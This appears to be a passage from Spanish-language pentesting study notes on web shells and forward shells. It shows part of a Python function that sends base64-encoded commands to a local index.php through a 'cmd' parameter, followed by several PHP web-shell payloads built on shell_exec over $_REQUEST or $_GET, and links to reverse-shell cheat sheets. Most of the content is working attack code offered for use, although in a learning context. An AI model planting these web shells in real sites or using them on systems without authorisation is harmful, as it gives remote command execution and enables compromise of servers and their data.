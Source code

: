def WriteCmd(cmd):
	cmd = cmd.encode('utf-8')
	cmd = b64encode(cmd).decode('utf-8')
	payload = {
		'cmd' : 'echo "%s" | base64 -d > %s' % (cmd, stdin)
	}
	result = (requests.get('http://127.0.0.1/index.php', params=payload, timeout=5).text).strip()
	return result

> Y teniendo en cuenta que el payload también tiene como nombre cmd.

Ejemplo, creamos un archivo que se llame index.php e introducimos el siguiente payload:
```bash
<?php
	echo shell_exec($_REQUEST['cmd']);
?>
```

> Este payload nos permitirá una ejecución remota de comandos en la propia página web desde la propia url.

$\_REQUEST : se utiliza la variable superglobal $\_REQUEST, que combina los valores de $\_GET, $\_POST y $\_COOKIE. Esto significa que el valor de 'cmd' se puede obtener tanto de una solicitud GET como POST o incluso de una cookie. 

También se puede hacer para que solo acepte peticiones por GET de la siguiente manera:
 ```bash
 <?php
	 echo shell_exec($_GET['cmd']);
 ?>
```

### Etiquetas preformateadas
Las etiquetas pre-formateadas nos darán una respuesta mucho más clara a la hora de dumpear información, porque muestra el output respetando los saltos de línea, en cambio sin las etiquetas mostrará el resultado todo en una línea.
En ejemplo anterior no puse las etiquetas preformateadas porque no sería compatible con el script anterior para la Fordward Shell. 
Payload
```php
<?php
	echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```

### WEB PAGES
- [Pentest monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux)
